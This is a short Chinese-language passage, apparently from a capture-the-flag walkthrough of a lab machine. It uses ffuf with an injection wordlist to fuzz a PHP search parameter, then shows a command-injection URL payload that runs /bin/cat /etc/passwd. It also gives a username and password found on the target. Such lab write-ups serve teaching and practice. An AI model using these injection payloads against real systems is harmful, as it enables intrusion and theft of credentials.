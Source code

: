 测试之前有的`php`文件，参数已经给出，测试有无注入点，如路径遍历等

这里可以使用`ffuf`或者`burp`等其他工具，执行发现一个可用语句

```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://192.168.10.9/site/busque.php?buscar=FUZZ -fs 1
#-fs 1 是把原本界面大小1，直接过滤掉
```

![](./pic/9.jpg)

```shell
http://192.168.10.9/site/busque.php?buscar=%0a/bin/cat%20/etc/passwd
```

复制这个语句，通过浏览器访问，发现一个用户，也就是前面隐藏文件中的用户名`jangow01`和密码`abygurl69`
